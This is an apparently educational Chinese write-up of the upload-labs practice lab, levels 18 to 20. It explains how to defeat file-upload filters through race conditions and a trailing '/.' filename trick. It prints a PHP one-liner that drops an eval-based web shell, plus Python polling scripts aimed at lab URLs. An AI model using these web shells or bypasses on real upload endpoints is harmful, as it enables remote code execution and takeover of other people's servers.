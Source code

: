 ```python
检测方式：
后端检测 
服务器先是将上传的文件保存下来，然后将文件的后缀名同白名单对比，如果是jpg、png、gif中的一种，就将文件进行重命名。如果不符合的话，unlink()函数就会删除该文件

(条件竞争)
-> intruder不断上传php文件，用python脚本不断访问目标文件
(总会有那么一瞬间是还没来得及删除就可以被访问到的，一旦访问到该文件就会在当前目录下生成一个xxx.php的一句话)

一句话
<?php fputs(fopen('xxx.php','w'),'<?php @eval($_POST["cmd"])?>');?>

脚本
import requests
url = "http://xxxx/upload-labs/upload/xxx.php"
while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break
```

## Less-19

```python
检测方式：
后端检测
服务器先是将文件后缀跟白名单做了对比，然后检查了文件大小以及文件是否已经存在。文件上传之后又对其进行了重命名。

(条件竞争)
-> intruder不断上图片马，用python脚本不断访问包含该文件
(总会有那么一瞬间是还没来得及删除就可以被访问到的，一旦包含该文件就会在当前目录下生成一个xxx.php的一句话)

一句话
<?php fputs(fopen('xxx.php','w'),'<?php @eval($_POST["cmd"])?>');?>

import requests
url = "http://127.0.0.1/upload-labs/include.php?file=upload/test.png"
while True:
    html = requests.get(url)
    if ( 'Warning'  not in  str(html.text)):
        print('ok')
        break
```

## Less-20

```php
检测方式：
后端检测
只对用户输入的文件名做判断
黑名单检测

(上传的文件名用户可控)
(move_uploaded_file()还有这么一个特性，会忽略掉文件末尾的 /.)

-> 以jpg为后缀上传，再保存为.php/.,既绕过了黑名单后缀，又使得可以解析php代码
```

